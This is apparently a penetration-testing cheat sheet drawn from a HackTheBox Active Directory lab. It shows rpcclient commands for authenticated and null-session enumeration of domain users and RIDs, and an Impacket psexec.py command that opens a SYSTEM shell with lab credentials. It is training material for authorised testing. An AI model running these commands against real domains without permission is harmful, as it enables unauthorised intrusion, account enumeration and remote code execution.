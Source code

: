 ### 🔓 **Establishing Connection**
```bash
# Authenticated connection
rpcclient -U "INLANEFREIGHT.LOCAL\forend%Klmcargo2" 172.16.5.5

# NULL session (if allowed)
rpcclient -U "" -N 172.16.5.5
```

### 👥 **User Enumeration**
```bash
# List all domain users with RIDs
rpcclient $> enumdomusers

# Example output:
user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
```

### 🔍 **User Information by RID**
```bash
# Query specific user by RID (hex)
rpcclient $> queryuser 0x457
```

### 📊 **RID and SID Understanding**
```bash
# RID (Relative Identifier) Examples:
# Administrator: RID 0x1f4 (500 decimal) - Always the same
# Domain Users: RID 0x201 (513 decimal) - Standard group
# Domain Admins: RID 0x200 (512 decimal) - Admin group

# Full SID format: S-1-5-21-<domain-identifier>-<RID>
# Example: S-1-5-21-3842939050-3880317879-2865463114-1111
```

---

## 🐍 Impacket Toolkit

### 📝 **Overview**
Impacket provides Python-based tools for interacting with Windows protocols. Two key tools are psexec.py and wmiexec.py.

### ⚡ **psexec.py**
```bash
# Establish SYSTEM-level shell via service creation
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```
